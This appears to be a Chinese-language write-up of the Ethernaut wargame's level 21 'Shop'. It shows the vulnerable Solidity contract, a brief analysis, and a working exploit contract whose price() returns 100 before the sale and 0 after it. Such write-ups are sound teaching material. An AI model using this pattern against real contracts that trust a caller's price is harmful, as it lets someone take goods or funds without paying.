

## Level_21.Shop

要求：

> 以很低的价格购买到商品；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

### 分析

和之前的一关一样，利用` isSold `来控制` price `的返回值，注意这边` price() `是` view `的，所以只能通过控制流来实现；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp is Buyer{
    Shop shop;
    constructor(address addr){
        shop = Shop(addr);
    }
    function price() external view override returns (uint256){
        if (shop.isSold() == false){
            return 100;
        } else {
            return 0;
        }
    }
    function Attack() public {
        shop.buy();
    }
}
```



